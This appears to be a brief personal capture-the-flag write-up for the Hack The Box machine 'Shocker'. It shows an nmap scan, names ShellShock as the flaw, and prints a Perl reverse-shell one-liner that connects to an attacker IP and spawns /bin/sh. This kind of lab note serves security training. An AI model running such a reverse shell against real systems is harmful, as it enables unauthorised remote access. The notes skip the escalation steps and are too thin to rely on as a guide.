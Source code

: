 # Shocker

Shocker

Tuesday, 1 February 2022

1:16 am

**\[Shocker]{.underline}**

Nmap -O -sV -T4 -p- 10.10.10.56

Nmap scan report for 10.10.10.56

Host is up (0.019s latency).

Not shown: 65533 closed ports

PORT     STATE SERVICE VERSION

80/tcp   open  http    Apache httpd 2.4.18 ((Ubuntu))

2222/tcp open  ssh     OpenSSH 7.2p2 Ubuntu 4ubuntu2.2 (Ubuntu Linux; protocol 2.0)

ShellShock is the exploit here, referred to as the answer because I could not for the life of me get it.&#x20;

export RHOST=10.10.16.3

export RPORT=12345

* perl -e 'use Socket;$i="$ENV{RHOST}";$p=$ENV{RPORT};socket(S,PF\_INET,SOCK\_STREAM,getprotobyname("tcp"));if(connect(S,sockaddr\_in($p,inet\_aton($i)))){open(STDIN,">\&S");open(STDOUT,">\&S");open(STDERR,">\&S");exec("/bin/sh -i");};'

From here we are able to escalate our privileges.

Learn to use wireshark to intercept packets and see instead, sometimes there are shellshocker things going by.

For example, I saw that the web page was sending packets randomly and refreshing time and time again, use wireshark to see what's up with that sometimes.
